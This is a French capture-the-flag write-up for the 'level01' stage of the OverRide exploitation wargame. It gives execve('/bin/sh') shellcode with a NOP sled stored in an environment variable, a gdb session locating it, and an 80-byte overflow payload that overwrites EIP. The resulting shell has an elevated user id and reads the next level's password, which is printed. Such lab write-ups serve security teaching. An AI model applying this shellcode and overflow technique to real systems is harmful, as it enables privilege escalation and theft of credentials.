 Ici on voit en reconstruisant le code en C que sa ne sert a rien de le suivre car le user et le mot de passe ne servent a rien et il n'y a pas bash qui est appelé dans le code donc on va devoir injecter notre shellcode.

On le place dans une variables d'envrionnement.

```bash
level01@OverRide:~$ export SC=$(python -c "print('\x90' * 42 + '\x31\xc0\x31\xd2\x31\xdb\x31\xc9\x68\x2f\x73\x68\x31\x80\x74\x24\x03\x31\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80')")
```

En cherchant on voit qu'il y a un buffer de 68 (0x60 - 0x1c). En additionnant avec les registre il va falloir ecrire 80 octets pour avoir acces a EIP et l'override avec l'adresse de notre shellcode.

```gdb
(gdb) x/20s *((char **)environ)
...
...
0xffffdea7:	 "SC=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\061\322\061\333\061\311h/sh1\200t$\003\061h/bin\211\343RS\211\341\260\v̀"
...
...
```

```bash
level01@OverRide:~$ cat <(python -c "print 'dat_wil' + '\n' + 'A' * 80 + '\xa7\xde\xff\xff'") - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

id
uid=1001(level01) gid=1001(level01) euid=1002(level02) egid=100(users) groups=1002(level02),100(users),1001(level01)
cat /home/user/level02/.pass
cat: /home/user/level02/.pass: No such file or directory
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```